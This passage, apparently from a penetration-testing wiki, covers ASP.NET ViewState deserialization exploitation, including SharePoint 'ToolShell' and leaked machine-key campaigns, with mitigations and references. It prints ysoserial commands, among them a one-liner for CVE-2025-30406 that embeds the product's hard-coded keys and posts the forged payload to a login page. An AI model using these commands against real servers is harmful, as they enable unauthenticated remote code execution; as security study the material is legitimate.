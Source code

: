 ```
  -c "powershell -nop -c \"whoami\"" \
  --generator=<VIEWSTATE_GENERATOR> \
  --validationkey=<VALIDATION_KEY> --validationalg=<VALIDATION_ALG> \
  --decryptionkey=<DECRYPTION_KEY> --decryptionalg=<DECRYPTION_ALG> \
  --islegacy --minify
curl "http://victim/page.aspx?__VIEWSTATE=<PAYLOAD>"
```
```
This **key-exfiltration primitive** was mass-exploited against on-prem SharePoint servers in 2025 ("ToolShell" – CVE-2025-53770/53771), but it is applicable to any ASP.NET application where an attacker can run server-side code.

## 2024-2025 Real-world Exploitation Scenarios and Hard-coded Machine Keys

### Microsoft “publicly disclosed machine keys” wave (Dec 2024 – Feb 2025)
Microsoft Threat Intelligence reported mass exploitation of ASP.NET sites where the *machineKey* had previously been leaked on public sources (GitHub gists, blog posts, paste sites). Adversaries enumerated these keys and generated valid `__VIEWSTATE` gadgets with the newer `ysoserial.net` 1.41 `--minify` and `--islegacy` flags to evade WAF length limits:

```bash
ysoserial.exe -p ViewState -g TypeConfuseDelegate -c "whoami" \
  --validationkey=<LEAKED_VALIDATION_KEY> --validationalg=SHA1 \
  --decryptionkey=<LEAKED_DECRYPTION_KEY> --decryptionalg=AES \
  --generator=<VIEWSTATEGEN> --minify
```
```
Rotating static keys or switching to *AutoGenerate* keys in Web .config (`<machineKey ... validationKey="AutoGenerate" decryptionKey="AutoGenerate" />`) mitigates this class of attacks.

### CVE-2025-30406 – Gladinet CentreStack / Triofox hard-coded keys
Kudelski Security uncovered that multiple CentreStack / Triofox releases shipped with identical `machineKey` values, enabling unauthenticated remote code execution through ViewState forgery (CVE-2025-30406).

One-liner exploit:

```bash
ysoserial.exe -p ViewState -g TextFormattingRunProperties -c "calc.exe" \
  --validationkey=ACC97055B2A494507D7D7C92DC1C854E8EA7BF4C \
  --validationalg=SHA1 \
  --decryptionkey=1FB1DEBB8B3B492390B2ABC63E6D1B53DC9CA2D7 \
  --decryptionalg=AES --generator=24D41AAB --minify \
  | curl -d "__VIEWSTATE=$(cat -)" http://victim/portal/loginpage.aspx
```
```
Fixed in CentreStack 16.4.10315.56368 / Triofox 16.4.10317.56372 – upgrade or replace the keys immediately. 

## References

- [[https://www.notsosecure.com/exploiting-viewstate-deserialization-using-blacklist3r-and-ysoserial-net/|Exploiting ViewState deserialization using Blacklist3r and YSoSerial.NET]]
- [[https://medium.com/@swapneildash/deep-dive-into-net-viewstate-deserialization-and-its-exploitation-54bf5b788817|Deep dive into .NET ViewState deserialization and its exploitation]]
- [[https://soroush.secproject.com/blog/2019/04/exploiting-deserialisation-in-asp-net-via-viewstate/|Exploiting deserialisation in ASP.NET via ViewState (Soroush Dalili, 2019)]]
- [[https://blog.blacklanternsecurity.com/p/introducing-badsecrets|Introducing badsecrets – fast machineKey discovery]]
- [[https://research.eye.security/sharepoint-under-siege/|SharePoint “ToolShell” exploitation chain (Eye Security, 2025)]]
- [[https://www.microsoft.com/en-us/security/blog/2025/02/06/code-injection-attacks-using-publicly-disclosed-asp-net-machine-keys/|Microsoft Security – Code injection attacks abusing publicly disclosed ASP.NET machine keys (Feb 6 2025)]]
```